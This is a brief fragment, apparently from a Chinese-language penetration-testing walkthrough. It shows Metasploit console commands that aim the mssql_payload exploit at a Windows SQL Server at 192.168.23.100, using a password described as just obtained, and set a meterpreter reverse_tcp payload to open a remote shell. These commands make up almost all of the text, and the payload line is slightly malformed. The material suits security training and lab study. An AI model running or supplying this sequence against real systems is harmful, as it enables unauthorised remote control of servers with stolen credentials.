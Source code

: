 ![](img/5.png)


use exploit/windows/mssql/mssql_payload
set RHOST 192.168.23.100 (我们的目标)
set password Password01 (我们刚刚获取的密码)
set payload/windows/meterpreter/reverse_tcp(our selected payload)
exploit


